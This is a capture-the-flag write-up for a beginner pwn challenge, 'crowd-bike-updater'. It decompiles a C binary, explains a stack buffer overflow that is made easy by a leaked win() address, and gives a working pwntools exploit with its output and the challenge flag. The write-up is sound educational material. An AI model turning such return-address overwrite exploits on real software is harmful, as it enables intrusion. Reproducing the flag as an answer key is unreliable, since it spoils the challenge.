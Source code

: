 # crowd-bike-updater

[library.m0unt41n.ch/challenges/crowd-bike-updater](https://library.m0unt41n.ch/challenges/crowd-bike-updater) ![](../../resources/pwn.svg) ![](../../resources/baby.svg) 

# TL;DR

We get a C binary, which asks for "log details":

```
Debug info - we crashed last time so we're making sure this function exists: 0x401196
CrowdStrike Antivirus - Update Version 3.14
Critical Update: Patching security vulnerabilities...
Antivirus Update Log System
Enter log details:
krkr
Log saved: krkr

Update completed successfully.
```

# Decompilation

```
$ checksec --file=updater
RELRO   STACK CANARY NX  PIE  RPATH  RUNPATH
Partial No canary    No  No   No     No
```

Decompilation with IDA is fairly straightforward:

```c
void win() {
  int msgLen; // [rsp+8h] [rbp-18h]
  int flagLen; // [rsp+Ch] [rbp-14h]
  const char *flag; // [rsp+18h] [rbp-8h]

  flag = getenv("FLAG");
  if ( !flag ) {
    puts("FLAG is not set, please contact the administrator");
    exit(1);
  }
  flagLen = strlen(flag);
  msgLen = strlen("Security breach detected! You've uncovered the secret flag:\n");
  fwrite("Security breach detected! You've uncovered the secret flag:\n", 1uLL, msgLen, stdout);
  fwrite(flag, 1uLL, flagLen, stdout);
  exit(0);
}

int log_update_details() {
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF
  puts("Antivirus Update Log System");
  puts("Enter log details:");
  fgets(buf, 100, stdin);
  return printf("Log saved: %s\n", buf);
}

int main(int argc, const char **argv, const char **envp) {
  setbuf(stdout, 0LL);
  printf("Debug info - we crashed last time so we're making sure this function exists: %p\n", win);
  puts("CrowdStrike Antivirus - Update Version 3.14");
  puts("Critical Update: Patching security vulnerabilities...");
  log_update_details();
  puts("Update completed successfully.");
  return 0;
}
```

# Vulnerability

The program leaks the address of `win()` function. Then, the
`log_update_details()` function has a `fgets()` with a limit of 100
bytes, while the buffer is just 64 bytes. Combined with no stack canary,
this is indeed a `baby` exercise in stack exploitation.

The payload needed

*   64 bytes for buffer
*   8 bytes for RBP
*   Address of `win()` function, which we can intercept from initial dialog

# Exploit

```python
import pwn
pwn.context(arch='amd64', os='linux')

io = pwn.process("./updater")
io.recvuntilS(b"making sure this function exists: ")
s = io.recvlineS()
win = int(s, 16)
payload = b'A'*64+b'B'*8+pwn.p64(win)
io.recvuntilS(b"Enter log details:\n")
io.sendline(payload)
io.interactive()
```

```
$ export FLAG=flag{test_flag}
$ ./exploit.py
[+] Starting local process './updater': pid 171203
[*] Switching to interactive mode
[*] Process './updater' stopped with exit code 0 (pid 171203)
Log saved: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\x96\x11@
Security breach detected! You've uncovered the secret flag:
flag{test_flag}[*] Got EOF while reading in interactive
$ ls
[*] Got EOF while sending in interactive
```

This works for remote instance too.

---

## `SCD{uwu_h3lp_upd4t3r_1s_stuck}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
